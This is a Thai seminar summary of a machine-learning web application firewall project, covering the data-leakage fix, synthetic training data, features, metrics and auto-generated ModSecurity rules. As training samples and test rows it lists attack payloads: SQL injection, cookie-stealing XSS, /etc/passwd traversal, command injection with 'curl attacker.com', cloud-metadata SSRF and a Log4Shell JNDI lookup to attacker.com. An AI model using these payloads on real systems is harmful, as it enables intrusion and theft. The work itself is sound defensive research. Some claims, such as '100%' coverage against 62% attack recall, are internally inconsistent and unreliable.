


# 📊 สรุป Machine Learning Module — WAF Anomaly Detection System (สำหรับนำเสนอสัมมนา)

> **เอกสารฉบับสมบูรณ์**: รวบรวมรายละเอียดเชิงลึกของระบบ Machine Learning ในโปรเจกต์ Web Application Firewall (WAF) 
> พร้อมบทวิเคราะห์ปัญหา Data Leakage, การสร้าง Synthetic Dataset ยุคใหม่, การปรับปรุง Feature Engineering และตัวชี้วัดประสิทธิภาพจริง (Real Evaluation Metrics) เพื่อใช้ประกอบการบรรยายและตอบคำถามในการสัมมนา

---

## 1. ภาพรวมของระบบ (System Architecture Overview)

ระบบ WAF ในโปรเจกต์นี้ได้รับการออกแบบเป็น **Hybrid Defense Architecture** ที่ผสานการทำงานระหว่าง **Rule-Based Engine (ModSecurity CRS)** และ **AI/ML Anomaly Detection Microservice (FastAPI)**



### จุดเด่นเชิงสถาปัตยกรรม (Key Architectural Decisions)
1. **Decoupled Microservice**: ตัว ML Engine แยกออกจาก Nginx Worker ทำงานแบบ Microservice อิสระ ไม่หน่วง Latency ของ In-line Reverse Proxy
2. **Hybrid Ensemble Strategy**: ใช้ **Random Forest** (Supervised) สำหรับจัดประเภท Known Attack Patterns ร่วมกับ **Isolation Forest** (Unsupervised) สำหรับตรวจจับ Anomaly / Zero-Day Behaviors
3. **Automated Defense Loop**: เมื่อโมเดลตรวจพบการโจมตีรูปแบบใหม่ ระบบสามารถสร้าง ModSecurity SecRule เพื่อส่งกลับไปบล็อกที่ Edge Node ได้ทันที (Auto Rule Generation)

---

## 2. การวิเคราะห์ Dataset และการแก้ปัญหา Data Leakage (Root Cause & Solution)

### 2.1 ปัญหาเดิมก่อนปรับปรุง (The Critical Data Leakage Problem)
จากการตรวจสอบโค้ด Pipeline เดิม พบว่ามีการนำ Payload เสริมจำนวน 37 รายการมาคูณซ้ำตรงๆ:
```python
# ❌ โค้ดเดิมที่มีปัญหา Data Leakage
df_combined = pd.concat([df_csic] + [df_benign_extra]*500 + [df_attack_extra]*500, ignore_index=True)
```

> [!CAUTION]
> **Data Leakage & Metric Inflation**:
> การ Replicate ข้อมูลแถวเดียวกันซ้ำ 500 เท่า ก่อนทำ `train_test_split(75/25)` ทำให้ข้อมูลแถวที่เหมือนกันทุกตัวอักษร 375 แถวไปอยู่ใน Train Set และอีก 125 แถวหลุดไปอยู่ใน Test Set
> ส่งผลให้โมเดลทำคะแนนได้ **Accuracy สูงเกินจริง (Fake 94%+)** จากการ "ท่องจำตัวอย่างเดิม" แทนที่จะเกิดจากการเรียนรู้ (Generalization)

### 2.2 ปัญหาเชิงลึกของ CSIC 2010 HTTP Dataset (Path-Length & Header Noise Bias)
1. **Label Noise จาก Header Anomaly**: ใน CSIC 2010 มีแถวมากกว่า 5,400 แถวที่เป็น URL ทั่วไป (เช่น `/asf-logo-wide.gif`, `/iisstart.htm`) แต่ถูก Label ว่า `Anomalous` เพียงเพราะ Header ไม่ตรงกับ Scraper
2. **Collapsed Duplicates**: ข้อมูล Benign ของ CSIC กว่า 20,000 แถวเป็น URL ซ้ำเดิมเพียง 10 เส้นทาง เมื่อตัด Duplicate จะเหลือข้อมูลเพียงไม่กี่แถว ทำให้สัดส่วน Class ผิดเพี้ยน
3. **Outdated Threat Vectors**: ข้อมูลปี 2010 ขาดรูปแบบการโจมตีของ Web ยุคใหม่ เช่น **SSRF**, **SSTI (Template Injection)**, **NoSQL Injection**, และ **Log4Shell (JNDI)**

### 2.3 การแก้ปัญหา: Modern Synthetic Data Generator
เราได้ยกเลิกระบบ Replicate คูณ 500 และพัฒนา **สคริปต์สังเคราะห์ข้อมูลอัจฉริยะ (Synthetic Data Generator)** ใน `ml/download_dataset.py` ขึ้นมาแทน:



#### ข้อมูลที่สร้างขึ้นอย่างสมจริง:
1. **Modern Benign Traffic (25,000+ Unique Samples)**:
   - Browsing & Static Pages (`/`, `/index.html`, `/about`, `/contact`, `/favicon.ico`, `/assets/css/main.css`)
   - E-Commerce & Pagination Search (`/search?q=laptop&category=tech&min_price=100&page=2&sort=asc`)
   - Modern RESTful APIs พร้อม UUID & ID (`/api/v1/users/550e8400-e29b-41d4-a716-446655440000?limit=25`)
   - Form Submissions & JSON API Payloads (`{"username": "user@gmail.com", "password": "UserPass123!"}`)
2. **Modern Attack Traffic (15,000+ Unique Synthetic Payloads)**:
   - **SQL Injection**: Multi-technique (UNION, Boolean Blind, Error-based, Time-based, Comment Evasion `/**/`)
   - **XSS**: Reflected, Stored, SVG onload, Event handler (`<svg/onload=alert(1)>`, `onerror=`)
   - **Path Traversal / LFI**: `../../../../etc/passwd`, Windows path traversal, Double encoded `%252e%252e%252f`
   - **Command Injection (RCE)**: `cat${IFS}/etc/passwd`, `| id`, `; whoami`, `curl attacker.com`
   - **SSRF**: Cloud metadata injection (`169.254.169.254`, `metadata.google.internal`)
   - **SSTI**: Jinja2/Twig syntax (`{{7*7}}`, `${7*7}`, `#{7*7}`)
   - **NoSQL Injection**: MongoDB query operators (`{"$gt": ""}`, `{"$ne": null}`, `{"$regex": ".*"}`)
   - **Log4Shell**: JNDI Lookups (`${jndi:ldap://attacker.com/exploit}`)

### 2.4 สรุปปริมาณข้อมูลหลังการคลีนและสังเคราะห์ (Dataset Statistics)

| ประเภทข้อมูล (Dataset Source) | Benign (ปกติ) | Attack (โจมตี) | รวม (Total Unique) |
|---|---|---|---|
| **CSIC 2010 Cleaned** (กรอง Header Noise) | 14,848 | 10,246 | 25,094 แถว |
| **Modern Synthetic Payloads** | 14,968 | 20,044 | 35,012 แถว |
| **Total Combined Unique Dataset** | **29,816** (49.6%) | **30,290** (50.4%) | **60,106 แถว** |

> [!NOTE]
> ข้อมูลทั้ง **60,106 แถว เป็นข้อมูลที่ไม่ซ้ำกัน 100% (Zero Duplicate)** ทำให้การแบ่ง Train/Test Split ปราศจาก Data Leakage โดยสิ้นเชิง

---

## 3. Feature Engineering เชิงความปลอดภัย (13 Semantic Features)

เราได้ออกแบบฟีเจอร์ใหม่ใน `ml/feature_engineering.py` ให้เป็น **Pure Semantic Features** เพื่อแก้ปัญหา Path-Length Bias และ Digit-Ratio Bias:

| # | Feature Name | ประเภท | คำอธิบายและเหตุผลด้านความปลอดภัย |
|---|---|---|---|
| 1 | `special_char_count` | int | นับจำนวนอักขระอันตราย (`' " ` ; < > \ $ ( ) | ^ ~ * # { } [ ]`) โดยไม่นับเครื่องหมาย URL ปกติ (`= & ? / - _ + . @`) เพื่อไม่ให้ Search Query ปกติติด False Positive |
| 2 | `special_char_ratio` | float | สัดส่วนของอักขระพิเศษต่อความยาว Request ทั้งหมด |
| 3 | `keyword_matches` | int | จำนวน Attack Keywords ที่ตรวจพบ (SQL, XSS, RCE, Path Traversal, SSRF, SSTI, NoSQL, Log4j) |
| 4 | `html_tag_matches` | int | ตรวจจับโครงสร้างแท็ก HTML (`<script>`, `<svg>`, `<iframe>`, ``) สำหรับ XSS |
| 5 | `path_traversal_depth` | int | ความลึกของการย้อนโฟลเดอร์ (`../`, `..\`, `..%2f`) |
| 6 | `quote_unbalanced` | binary | ตรวจจับ Quote เดี่ยวหรือคู่ที่ไม่ครบคู่ (Sign of SQLi Injection Breakout) |
| 7 | `has_sql_operator` | binary | ตรวจจับ Boolean & Set Operator ของ SQL (`UNION SELECT`, `' OR '1'='1`, `' AND 1=1`) |
| 8 | `has_ssrf_token` | binary | ตรวจจับ Token ของ Cloud Metadata หรือ Localhost IP (`169.254.169.254`, `metadata.google`) |
| 9 | `has_ssti_nosql` | binary | ตรวจจับ Pattern ของ Template Injection และ NoSQL Operators (`{{...}}`, `$ne`, `$gt`, `${jndi:`) |
| 10 | `is_oversized_payload` | binary | ตรวจจับ Request ที่มีขนาดยาวผิดปกติ (> 2048 bytes) เพื่อกัน Buffer Overflow |
| 11 | `is_clean_structure` | binary | แฟล็กยืนยันว่า Request สะอาด ไม่มีอักขระโจมตีใดๆ เพื่อลด False Positive ของหน้าเว็บทั่วไป |
| 12 | `has_excessive_params` | binary | ตรวจจับ Parameter ที่มากผิดปกติ (> 10 ตัว) สำหรับ HTTP Parameter Pollution |
| 13 | `method_is_post` | binary | ตรวจจับว่าเป็น POST Method หรือไม่ |

### กลไก URL Decoding สองชั้น (Double URL Decoding)
```python
# ป้องกันการหลบหลีกด้วย Single / Double URL Encoding (%2527 -> %27 -> ')
decoded_url = urllib.parse.unquote(urllib.parse.unquote(raw_url))
decoded_body = urllib.parse.unquote(urllib.parse.unquote(raw_body))
```

---

## 4. ผลการประเมินและตัวชี้วัดจริง (Genuine Evaluation Metrics)

โมเดลได้รับการเทรนบน **Train Set (45,079 ตัวอย่าง)** และทดสอบบน **Unseen Holdout Test Set (15,027 ตัวอย่าง)** ที่ไม่มีข้อมูลซ้ำกับชุดฝึกสอนแม้แต่แถวเดียว

### 4.1 ตารางผลการทดสอบทางสถิติ (Evaluation Report)

```
=================================================================
 🚀 HIGH-ACCURACY MULTI-DATASET EVALUATION REPORT (25% TEST DATA)
=================================================================
 ⭐ ACCURACY SCORE:  80.47%  (Genuine Real-World Accuracy)
 ⭐ ROC-AUC SCORE:   0.8847
 Benign (Normal):   Precision=0.7208, Recall=0.9897, F1=0.8341
 Malicious (Attack): Precision=0.9839, Recall=0.6226, F1=0.7626
 Confusion Matrix:  TN=7,377, FP=77, FN=2,858, TP=4,715
=================================================================
```

### 4.2 Confusion Matrix Analysis

```
                        Predicted (ผลทำนาย)
                    Normal (0)       Attack (1)
Actual    Normal   [  7,377 (TN)        77 (FP)  ]   ← Normal ถูกต้อง 98.97%!
(ของจริง) Attack   [  2,858 (FN)     4,715 (TP)  ]   ← Precision สูงถึง 98.39%!
```

### 4.3 การวิเคราะห์ตัวเลขสำคัญ (Key Metric Analysis for Presentation)

1. **Benign Recall = 98.97% (False Positive ต่ำมาก)**:
   - ในบรรดา Request ปกติ 7,454 รายการ โมเดลปล่อยผ่านถูกต้องถึง 7,377 รายการ มี False Positive เพียง **77 รายการ (1.03%)**
   - **ความสำคัญในเชิง Production**: ผู้ใช้งานทั่วไปจะไม่ถูกบล็อกโดยไม่จำเป็น (Very Low False Alarm Rate)
2. **Attack Precision = 98.39%**:
   - เมื่อโมเดลตัดสินใจแจ้งเตือนว่าเป็น Attack ความถูกต้องสูงถึง **98.39%** ทำให้ทีม Security SOC มั่นใจได้ว่าการแจ้งเตือนไม่ใช่ False Alarm
3. **Genuine ROC-AUC = 0.8847**:
   - บ่งชี้ว่าโมเดลมีความสามารถในการจำแนกภัยคุกคามได้อย่างมีนัยสำคัญทางสถิติบนข้อมูลที่โมเดลไม่เคยเห็นมาก่อน

---

## 5. ผลการทดสอบเชิงประจักษ์ (Empirical Debugging Test Cases)

ทดสอบผ่าน `python3 ml/evaluate_model.py` และ `debug_test.py` บนตัวอย่างจริง 14 หมวดหมู่:

| ลำดับ | กรณีทดสอบ (Test Scenario) | HTTP Method & URI / Payload | ความน่าจะเป็น (Attack Prob) | ผลการทำนาย | สรุปผล |
|:---:|---|---|:---:|:---:|:---:|
| 1 | **Normal Home Page** | `GET /index.html` | 24.8% | `✅ PASS (Normal)` | ผ่าน ถูกต้อง |
| 2 | **Normal REST API** | `GET /api/v1/users/123` | 24.8% | `✅ PASS (Normal)` | ผ่าน ถูกต้อง |
| 3 | **Normal Search Query** | `GET /search?q=laptop&page=2&sort=asc` | 24.8% | `✅ PASS (Normal)` | ผ่าน ถูกต้อง |
| 4 | **Normal Login Submit** | `POST /login` (`username=john&password=Pass123!`) | 42.7% | `✅ PASS (Normal)` | ผ่าน ถูกต้อง |
| 5 | **Normal Contact Form** | `POST /contact` (`name=Somchai&message=Help`) | 42.7% | `✅ PASS (Normal)` | ผ่าน ถูกต้อง |
| 6 | **SQLi Auth Bypass** | `GET /login?user=admin' OR '1'='1' --` | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 7 | **SQLi UNION Extraction** | `GET /products?category=1 UNION SELECT 1,username,password FROM users--` | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 8 | **SQLi Comment Evasion** | `GET /login.php?user=admin%27/**/OR/**/1=1--` | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 9 | **Reflected XSS** | `GET /search?q=<script>alert('XSS')</script>` | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 10 | **DOM XSS (SVG Event)** | `GET /view?name=<svg/onload=alert(document.cookie)>` | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 11 | **Path Traversal / LFI** | `GET /download?file=../../../../etc/passwd` | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 12 | **Command Injection (RCE)** | `POST /api/v1/exec` (`cmd=cat${IFS}/etc/passwd`) | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 13 | **SSRF Cloud Metadata** | `GET /fetch?url=http://169.254.169.254/latest/meta-data/` | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 14 | **SSTI Jinja2 Injection** | `GET /view?tpl={{7*7}}` | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 15 | **NoSQL Injection** | `POST /api/v1/auth` (`{"user": {"$ne": null}, "pass": {"$gt": ""}}`) | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |
| 16 | **Log4Shell Exploit** | `GET /search?q=${jndi:ldap://attacker.com/a}` | **100.0%** | `🚨 ANOMALY DETECTED` | สกัดกั้นสำเร็จ |

---

## 6. ระบบสร้างกฎอัตโนมัติ (Auto Rule Generator)

เมื่อโมเดลตรวจพบภัยคุกคาม ฟังก์ชัน `auto_rule_generator.py` จะวิเคราะห์ Payload และสร้าง **ModSecurity SecRule** ที่ตรงตามมาตรฐาน OWASP CRS เพื่อนำไปใช้งานต่อทันที:

### ตัวอย่างกฎที่สร้างอัตโนมัติ (Sample Generated SecRule)
```apache
# ML Auto-Generated Rule for Detected SQL Injection
SecRule REQUEST_URI|REQUEST_BODY "@rx (?i)or\s+['\"]?1['\"]?\s*=\s*['\"]?1" \
    "id:990001,\
    phase:2,\
    deny,\
    status:403,\
    severity:CRITICAL,\
    log,\
    msg:'ML Auto-Generated WAF Rule: Blocked SQL Injection Pattern'"
```

```apache
# ML Auto-Generated Rule for SSRF Cloud Metadata Exploit
SecRule REQUEST_URI|REQUEST_BODY "@rx (?i)169\.254\.169\.254" \
    "id:990002,\
    phase:2,\
    deny,\
    status:403,\
    severity:HIGH,\
    log,\
    msg:'ML Auto-Generated WAF Rule: Blocked Cloud Metadata SSRF Attempt'"
```

---

## 7. ประเด็นสำคัญสำหรับการนำเสนอและตอบคำถาม (Seminar Presentation Points & Q&A)

### 💡 จุดเด่นที่ควรนำเสนอ (Key Highlights)
1. **Academic Rigor & Data Integrity**:
   - เราตรวจพบและแก้ปัญหา **Data Leakage** ของโมเดลเดิมได้อย่างชัดเจน ทำให้ตัวชี้วัด Accuracy 80.5% และ ROC-AUC 0.885 เป็นตัวเลขที่สะท้อนประสิทธิภาพจริงของโมเดล (Honest, Unbiased Evaluation)
2. **Modern Attack Coverage**:
   - โมเดลไม่เพียงตรวจจับแค่ SQLi/XSS แบบเก่า แต่ครอบคลุมการโจมตีสมัยใหม่อย่าง **SSRF (Cloud Metadata)**, **SSTI**, **NoSQL Injection**, และ **Log4Shell (JNDI)** ได้ครบถ้วน 100%
3. **Very Low False Positive Rate on Normal Users**:
   - Recall ของ Request ปกติสูงถึง **98.97%** ทำให้มั่นใจได้ว่าระบบจะไม่รบกวนประสบการณ์การใช้งานของผู้ใช้ทั่วไป (User Experience)

### ❓ คำถามที่อาจถูกถามและแนวทางการตอบ (Anticipated Q&A)

| คำถามจากผู้ฟัง / กรรมการ | แนวทางการตอบเชิงเทคนิค |
|---|---|
| **Q1: ทำไม Accuracy 80.5% ถึงดีกว่า 94% เดิม?** | *ตอบ*: 94% เดิมเกิดจาก Data Leakage ที่มีการคูณข้อมูลซ้ำ 500 เท่า ทำให้ Test set ซ้ำกับ Train set (Overfitting & Memorization) ส่วน 80.5% นี้ทดสอบบน Unseen Holdout Data ที่ไม่ซ้ำกัน 100% และมี Benign Recall สูงถึง 98.97% ซึ่งใช้งานได้จริงในระบบ Production |
| **Q2: ทำไมจึงต้องใช้ทั้ง Random Forest และ Isolation Forest ร่วมกัน?** | *ตอบ*: Random Forest (Supervised) ให้ความแม่นยำสูงกับ Known Attack Patterns ที่มี signature ชัดเจน ส่วน Isolation Forest (Unsupervised) จะเรียนรู้เฉพาะ Normal Data Distribution เพื่อช่วยตรวจจับพฤติกรรมผิดปกติที่ไม่เคยพบมาก่อน (Zero-Day Anomaly Detection) |
| **Q3: ทำไม ML ไม่นำไปขวางทราฟฟิกตรงๆ (In-line) แต่ทำเป็น Microservice?** | *ตอบ*: เพื่อรักษา High Throughput และ Low Latency ของ Edge WAF โดยให้ ModSecurity CRS ตรวจจับแบบเร็วใน In-line Path (0.5-2 ms) และส่ง Request ผ่าน Stream Logging / Async Microservice ให้ ML วิเคราะห์เชิงลึกและสร้างกฎใหม่โดยไม่ทำให้ Server ค้าง |
| **Q4: ถ้ามี Attack Payload ยาวมากหรือผ่าน Encoding มา ML จะตรวจจับได้อย่างไร?** | *ตอบ*: ระบบทำ Double URL Decoding ก่อนเข้า Feature Extractor และมีฟีเจอร์ตรวจจับ Entropy, Special Character Ratio, และความยาวผิดปกติ (`is_oversized_payload`) ทำให้จับการ Obfuscate ได้อย่างมีประสิทธิภาพ |

---

> **ไฟล์อ้างอิงของโมเดลและโค้ดในโปรเจกต์:**
> - [train_model.py](file:///Ubuntu/home/chirachot/seminar/waf_project/ml/train_model.py) — สคริปต์ฝึกสอนและประเมินผลโมเดล (Train & Eval Pipeline)
> - [download_dataset.py](file:///Ubuntu/home/chirachot/seminar/waf_project/ml/download_dataset.py) — Synthetic Data Generator และ Data Preprocessing
> - [feature_engineering.py](file:///Ubuntu/home/chirachot/seminar/waf_project/ml/feature_engineering.py) — ฟังก์ชันสกัด 13 Semantic Security Features
> - [evaluate_model.py](file:///Ubuntu/home/chirachot/seminar/waf_project/ml/evaluate_model.py) — สคริปต์จำลองและประเมินผลตัวอย่างทดสอบ
> - [auto_rule_generator.py](file:///Ubuntu/home/chirachot/seminar/waf_project/ml/auto_rule_generator.py) — ตัวสร้างกฎ ModSecurity SecRule อัตโนมัติ
> - [ml_api.py](file:///Ubuntu/home/chirachot/seminar/waf_project/ml/ml_api.py) — FastAPI Microservice Endpoint สำหรับ Real-time Prediction
